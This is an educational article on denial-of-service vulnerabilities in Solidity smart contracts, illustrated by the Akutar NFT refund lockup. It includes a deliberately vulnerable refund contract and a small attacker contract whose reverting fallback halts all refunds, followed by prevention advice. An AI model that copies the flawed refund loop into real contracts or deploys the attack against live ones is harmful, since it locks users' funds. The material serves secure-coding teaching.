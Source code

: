 
# Denial of Service Attacks

In April 2022, a popular NFT project called Akutar conducted a successful [Dutch auction](https://en.wikipedia.org/wiki/Dutch_auction) to raise funds, amassing 11,539.5 ETH. However, when processing refunds for previous community pass holders, a flaw in their smart contract prevented operations, locking all funds within the contract due to a DoS vulnerability. 

You can find more detailed information in [EXPLAINED: THE AKUTARS NFT INCIDENT (APRIL 2022)](https://www.halborn.com/blog/post/explained-the-akutars-nft-incident-april-2022)

Denial of Service (DoS) attacks in the Web2 context typically involve overwhelming a server with excessive traffic, rendering it unable to serve legitimate requests. In the Web3 realm, such attacks exploit vulnerabilities to disrupt smart contract operations.

#### Vulnerability Example

Let’s explore a simplified contract, `GameOfFunds`, that demonstrates this type of vulnerability. The contract allows players to deposit ETH at the beginning and intends to refund these deposits once the game concludes.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

contract GameOfFunds {
    bool public refundsComplete;
    mapping(address => uint256) public deposits;
    address[] public participantList;

    // Players deposit ETH into the contract
    function contribute() external payable {
        require(!refundsComplete, "Game Over");
        require(msg.value > 0, "Please deposit ETH");
        deposits[msg.sender] = msg.value;
        participantList.push(msg.sender);
    }

    // Refund players at the end of the game
    function processRefunds() external {
        require(!refundsComplete, "Game Over");
        for (uint256 i = 0; i < participantList.length; i++) {
            address participant = participantList[i];
            uint256 refundAmount = deposits[participant];
            (bool success, ) = participant.call{value: refundAmount}("");
            require(success, "Refund Failed!");
            deposits[participant] = 0;
        }
        refundsComplete = true;
    }

    function getBalance() external view returns(uint256) {
        return address(this).balance;
    }
}
```

This contract is vulnerable because the `processRefunds()` function uses the `call` method, which activates the fallback function of recipient addresses. A malicious contract can disrupt this process.

```solidity
contract Malicious {
    fallback() external payable {
        revert("DoS Attack!");
    }

    function initiateAttack(address gameAddress) external payable {
        GameOfFunds game = GameOfFunds(gameAddress);
        game.contribute{value: msg.value}();
    }
}
```

## Prevention Strategies

1. Ensure external contract calls, including fallback functions, do not interfere with or halt critical operations, allowing processes like refunds to continue even if individual transactions fail.
2. Maintain contract functionality even if key participants are permanently absent, and allow users to withdraw refunds themselves rather than distributing them in batches.
3. Prevent contracts from unintentionally self-destructing and avoid infinite loops to ensure stable and secure contract operations.

